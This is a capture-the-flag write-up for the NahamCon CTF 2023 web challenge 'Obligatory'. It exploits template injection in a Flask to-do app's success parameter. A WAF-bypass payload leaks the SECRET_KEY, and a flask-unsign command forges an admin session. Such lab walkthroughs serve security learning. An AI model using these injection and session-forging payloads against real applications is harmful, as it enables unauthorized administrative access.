 # Obligatory [Web]
NahamCon CTF 2023
*Every Capture the Flag competition has to have an obligatory to-do list application, right???*

## Writeup
Sign Up and Login on the Web Application. The website is a Todo-List tracker

![todo](./todolist.png)

After creating a task, a message `Task created` is printed. The message can also be controlled via the `success` GET parameter

```
http://challenge.nahamcon.com:PORT/?success=Task%20created
```

The parameter is Vulnerable to **SSTI**

![ssti](./ssti.png)

```
http://challenge.nahamcon.com:31129/?success={{7*7}}
```

I tried to leak Config items with `{{config.items()}}`, but is blocked by WAF

![](./config-waf.png)

Bypassed with `{{self|attr("\x5f\x5fdict\x5f\x5f")}}`

![](./waf-bypass.png)

Now that we got the SECRET_KEY, we can forge our own Flask Session and login as Admin

```bash
flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
```

![](./flask.png)

**Flag obtained after using the newly signed auth-token**

![](./flag.png)

